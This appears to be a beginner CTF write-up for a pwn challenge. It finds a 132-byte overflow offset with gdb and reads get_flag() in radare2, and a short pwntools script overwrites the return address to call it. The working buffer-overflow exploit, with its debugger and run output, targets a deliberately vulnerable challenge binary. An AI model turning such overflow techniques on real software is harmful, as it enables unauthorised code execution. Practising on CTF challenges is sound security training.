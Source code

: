 Beginners Up Pwn Challenge - Break_In CTF

With gdb and pwntools cyclic patterns, we can find the offset to overflow as 132
```
Program received signal SIGSEGV, Segmentation fault. 
0x62616169 in ?? ()
gef➤  pattern offset 0x62616169
[+] Searching '0x62616169'
[+] Found at offset 132 (little-endian search) likely
```
I used radare2 to analyze the functions of the binary
```
[0x08048440]> afl                                                                                                                                     
<-----------------SNIP------------------>                                                                                                
0x080485a2    1 32           sym.get_flag                                                                                                             
0x080483f0    1 6            sym.imp.puts                                                                                                             
0x08048400    1 6            sym.imp.system                                                                                                           
0x08048654    1 20           sym._fini                                                                                                                
0x08048556    1 76           sym.initialize                                                                                                           
<-----------------SNIP------------------>
```
we can see get_flag() function. i disassembled it using the pdf command
```
[0x08048440]> pdf @sym.get_flag
/ (fcn) sym.get_flag 32
|   sym.get_flag ();
|           0x080485a2      55             push ebp
|           0x080485a3      89e5           mov ebp, esp
|           0x080485a5      6870860408     push str.Dont_use_gets_bruhh_:__here_is_ur_flag.. ; 0x8048670 ; "\nDont use gets bruhh :) here is ur flag.." ; const char *s
|           0x080485aa      e841feffff     call sym.imp.puts           ; int puts(const char *s)
|           0x080485af      83c404         add esp, 4
|           0x080485b2      689a860408     push str.bin_cat_flag.txt   ; 0x804869a ; "/bin/cat flag.txt" ; const char *string
|           0x080485b7      e844feffff     call sym.imp.system         ; int system(const char *string)
|           0x080485bc      83c404         add esp, 4
|           0x080485bf      90             nop
|           0x080485c0      c9             leave
\           0x080485c1      c3             ret
```
So we can directly call the function to get the flag using this simple exploit
```python
from pwn import *
expl = cyclic(132)
expl += p32(0x080485a2) # get_flag() address
print expl
```
# python begin.py | ./begin
overflow me --_--

Dont use gets bruhh :) here is ur flag..
/bin/cat: flag.txt: No such file or directory
[1]    4254 done                python begin.py | 
       4255 segmentation fault  ./begin
```
Run this against remote server to get the flag
